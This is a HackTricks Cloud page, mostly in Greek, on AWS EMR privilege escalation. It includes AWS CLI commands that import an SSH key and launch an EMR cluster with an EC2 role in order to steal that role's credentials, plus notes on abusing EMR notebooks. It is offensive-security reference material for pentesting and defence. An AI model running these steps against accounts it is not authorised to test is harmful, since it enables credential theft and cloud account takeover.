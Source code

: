 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Περισσότερες **πληροφορίες σχετικά με το EMR** στο:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **τρέξει ένα νέο EMR cluster συνδέοντας ρόλους EC2** και να προσπαθήσει να κλέψει τα διαπιστευτήριά του.\
Σημειώστε ότι για να το κάνετε αυτό θα χρειαστεί να **γνωρίζετε κάποιο ssh priv key που έχει εισαχθεί στον λογαριασμό** ή να εισάγετε ένα, και να μπορείτε να **ανοίξετε την πόρτα 22 στον κύριο κόμβο** (μπορείτε να το κάνετε αυτό με τα χαρακτηριστικά `EmrManagedMasterSecurityGroup` και/ή `ServiceAccessSecurityGroup` μέσα στο `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Σημειώστε πώς ένας **ρόλος EMR** καθορίζεται στο `--service-role` και ένας **ρόλος ec2** καθορίζεται στο `--ec2-attributes` μέσα στο `InstanceProfile`. Ωστόσο, αυτή η τεχνική επιτρέπει μόνο την κλοπή των διαπιστευτηρίων του ρόλου EC2 (καθώς θα συνδεθείτε μέσω ssh) αλλά όχι του ρόλου IAM EMR.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας EC2 που καθορίζεται.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Με αυτές τις άδειες, ένας επιτιθέμενος μπορεί να πάει στην **κονσόλα AWS**, να δημιουργήσει ένα Notebook και να έχει πρόσβαση σε αυτό για να κλέψει τον ρόλο IAM.

{% hint style="danger" %}
Ακόμα και αν επισυνάψετε έναν ρόλο IAM στην περίπτωση του notebook, στις δοκιμές μου παρατήρησα ότι ήμουν σε θέση να κλέψω διαπιστευτήρια που διαχειρίζεται το AWS και όχι διαπιστευτήρια που σχετίζονται με τον ρόλο IAM.
{% endhint %}

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο που διαχειρίζεται το AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Μόνο με αυτή την άδεια, ένας επιτιθέμενος θα είναι σε θέση να έχει πρόσβαση στο **Jupyter Notebook και να κλέψει τον ρόλο IAM** που σχετίζεται με αυτό.\
Η διεύθυνση URL του notebook είναι `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Ακόμα και αν επισυνάψετε έναν ρόλο IAM στην περίπτωση του notebook, στις δοκιμές μου παρατήρησα ότι ήμουν σε θέση να κλέψω διαπιστευτήρια που διαχειρίζεται το AWS και όχι διαπιστευτήρια που σχετίζονται με τον ρόλο IAM.
{% endhint %}

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο που διαχειρίζεται το AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
